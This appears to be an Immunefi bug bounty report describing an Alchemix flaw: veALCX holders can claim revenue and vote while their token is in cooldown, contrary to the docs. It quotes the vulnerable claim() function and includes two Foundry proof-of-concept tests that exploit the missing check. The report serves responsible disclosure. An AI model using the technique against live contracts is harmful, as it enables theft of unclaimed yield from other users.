 
# veALCX holders are able to withdraw rewards and vote even when their token is under cooldown 

Submitted on May 19th 2024 at 12:58:15 UTC by @xBentley for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31447

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
veALCX holders are able to withdraw rewards even when their token is under cooldown. This is contrary to the docs that clearly state that users should not be able to withdraw rewards as stated here: (https://alchemixfi.medium.com/vealcx-update-272e8900ac5a)

## Vulnerability Details
According to the docs, veALCX holders should not be able to withdraw rewards and vote when their token enters into cooldown: 

> There will be a one-epoch cooldown period between unlocked tokens and being able to claim them to the user’s wallet. The user will have no voting power and will earn no rewards during this cooldown time. Locked tokens can become eligible for unlocks by burning MANA tokens — see the MANA section below.

However, the src/RevenueHandler.sol::claim(https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L186) function does not check this fact, allowing users to claim rewards at will. 

```solidity
function claim(
        uint256 tokenId,
        address token,
        address alchemist,
        uint256 amount,
        address recipient
    ) external override {
        require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, tokenId), "Not approved or owner");

        uint256 amountBurned = 0;

        uint256 amountClaimable = _claimable(tokenId, token);
        require(amount <= amountClaimable, "Not enough claimable");
        require(amount > 0, "Amount must be greater than 0");
        require(amount <= IERC20(token).balanceOf(address(this)), "Not enough revenue to claim");

        userCheckpoints[tokenId][token].lastClaimEpoch = currentEpoch;
        userCheckpoints[tokenId][token].unclaimed = amountClaimable - amount;

        // If the alchemist is defined we know it has an alchemic-token
        if (alchemists[alchemist] != address(0)) {
            require(token == IAlchemistV2(alchemist).debtToken(), "Invalid alchemist/alchemic-token pair");

            (, address[] memory deposits) = IAlchemistV2(alchemist).accounts(recipient);
            IERC20(token).approve(alchemist, amount);

            // Only burn if there are deposits
            amountBurned = deposits.length > 0 ? IAlchemistV2(alchemist).burn(amount, recipient) : 0;
        }

        /*
            burn() will only burn up to total cdp debt
            send the leftover directly to the user
        */
        if (amountBurned < amount) {
            IERC20(token).safeTransfer(recipient, amount - amountBurned);
        }

        emit ClaimRevenue(tokenId, token, amount, recipient);
    }

```
## Impact Details
Users are able to claim rewards when their token in under cooldown contrary to the documentation. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L186



## Proof of Concept
Add this test to src/test/RevenueHandler.t.sol for claiming revenue:

```solidity

    function testClaimRevenueSucceedsCoolDown() external {
        revenueHandler.addAlchemicToken(address(alethAlchemist));

        uint256 revAmt = 1000e18;
        uint256 tokenId = _setupClaimableRevenue(revAmt);

        uint256 claimable = revenueHandler.claimable(tokenId, alusd);
        assertGt(claimable, 0);
        hevm.warp(block.timestamp + MAXTIME + nextEpoch);
        veALCX.startCooldown(tokenId);
        claimable = revenueHandler.claimable(tokenId, alusd);
        assertGt(claimable, 0);
        revenueHandler.claim(tokenId, alusd, address(alusdAlchemist), claimable, address(this));
        assertGt(IERC20(alusd).balanceOf(address(this)), 0);

    }
```
Add this test to src/test/AlchemixGovernor.t.sol for voting:

```solidity
    function testCanVoteCoolDown() public {
        assertFalse(voter.isWhitelisted(usdc));

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        hevm.warp(block.timestamp + 2 days); // delay

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // Mint the necessary amount of flux to ragequit
        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId1);
        hevm.prank(address(veALCX));
        flux.mint(admin, ragequitAmount);
        hevm.startPrank(admin);
        flux.approve(address(veALCX), ragequitAmount);
        veALCX.startCooldown(tokenId1);
        
        uint256 votes = governor.getVotes(admin, block.timestamp);
        assertLt(0, votes);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();
    }
```